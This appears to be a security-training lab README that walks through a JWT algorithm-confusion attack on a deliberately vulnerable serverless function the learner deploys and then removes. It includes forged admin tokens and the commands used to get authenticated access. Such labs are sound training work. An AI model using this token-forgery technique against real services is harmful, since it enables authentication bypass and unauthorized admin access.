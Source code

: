# **Algorithm Confusion**

---
> #### You can read more about this flaw: [CVE-2017-11424](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=873244) and [Auth0 Blog](https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/)

### **Lab Image : `Serverless`**

---

> **Note:** If you have not setup your aws cli follow [AWS-CLI-Configuration](../aws-configure/README.md) under the `Setup` section*

#### Step 1:

* Navigate to the `Serverless-Workshop` directory on the provisioned server

```commandline
cd /root/labs/Serverless-Workshop/XXE
```

* Activate the python virtual environment

```commandline
pipenv shell
```

* Navigate to the `Algo-Confusion` directory

```commandline
cd /root/labs/Serverless-Workshop/Algo-Confusion
```

* Install the necessary requirements

```commandline
sls plugin install -n serverless-python-requirements
```

---

#### Step 2:

* Take a look at the contents of the `serverless.yml` [here](https://github.com/we45/Serverless-Workshop/blob/master/Algo-Confusion/serverless.yml)

```commandline
cat serverless.yml
```

---

#### Step 3:

* Deploy the function and wait for the deployment to complete.

```commandline
sls deploy
```


* Once the deployment is complete, an API endpoint(s) is displayed.

> **EXAMPLE**:

```text
Serverless: Stack update finished...
Service Information
service: we45-sls-workshop-algo-confusion
stage: dev
region: us-west-2
stack: we45-sls-workshop-algo-confusion-dev
resources: 18
api keys:
  None
endpoints:
  GET - https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
  GET - https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify
functions:
  init-algo: we45-sls-workshop-algo-confusion-dev-init-algo
  verify-algo: we45-sls-workshop-algo-confusion-dev-verify-algo
```

---

#### Step 4:

* Run a GET request against the `/dev/init` endpoint

```commandline
http GET https://XXXXXXX.execute-api.us-west-2.amazonaws.com/dev/init
```

* The response should be similar to the one below.

> **EXAMPLE**:
```json
{"token": "eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJ1c2VyIjoidXNlciIsImF1dGhlbnRpY2F0ZWQiOmZhbHNlfQ.Nz39CRtIFrCsX76B9Dq0aEOSsWQ9UwDFNqla1Xj1PHiIOSh0WFcJHWEO1NF7YKq6Uv8C__tKQA2fg3qH_m7gLSLkQSf2eGRAubJXMU2XRRlkhMKvI6iksEnjUBvRAbt_UhN5mDcXHjBpX_1q2wadmVbiBz6YkfkffdTMas7ywLFK43tKvL9Iw32fRgoP__K93EaYdvT8Wxm0LdMU_RxmBqjrf4nwTrGynwoWqc2ZRKYa7tZMNCGNIEiNQxK1b4p39MpZqwhIVkFsFMNwd_jECE0nfzcskTQdtZG4KC1WLSnOB7XNjWwAM_NUujCp_sB_iTcEGQlBfo-Oxx5yULXSBA"}
```

---

#### Step 5:

* Navigate to `Serverless-Workshop` and install the necessary requirements

```commandline
cd /root/labs/Serverless-Workshop/
```
```commandline
pip3 install pipenv
```
```commandline
pipenv install pyjwt && pipenv install huepy
```

---

#### Step 6:

* Navigate to the `Algo-Confusion` directory
 
 ```commandline
 cd /root/labs/Serverless-Workshop/Algo-Confusion
 ```

* Generate a token using `public.pem` file

```commandline
python token_gen.py public.pem
```

* The response should be similar to the one below.

> **EXAMPLE**:
```text
[+] Token is:
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
```

---

#### Step 7:

* Using the token generated, run an authorized GET request.

```commandline
http GET https://XXXXXX.execute-api.us-west-2.amazonaws.com/dev/verify Authorization:eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJhdXRoZW50aWNhdGVkIjp0cnVlfQ.kdps5gagmmxBnnwtAIuEtJBMu6rWjG8wY4V2X9jlfOM
```

* The response should be similar to the one below.

> **EXAMPLE**:

```text
HTTP/1.1 200 OK
Connection: keep-alive
Content-Length: 40
Content-Type: application/json
x-amzn-RequestId: e66e15fb-b1b2-11e9-8818-53f47d545fa4

{
    "authenticated": true,
    "user": "admin"
}
```

---

#### Step 8:

* Navigate to the `Algo-Confusion` directory
 
 ```commandline
 cd /root/labs/Serverless-Workshop/Algo-Confusion
 ```

* Remove the serverless function that was deployed

```commandline
sls remove --force
```

* Deactivate the python-virtualenvironment

```commandline
deactivate
```
```commandline
exit
```

* Step 15: Run `sls remove --force` to remove stack

```commandline
sls remove --force
```

* Step 16: Deactivate `pipenv` using `deactivate` command

```commandline
deactivate
```

```commandline
exit
```
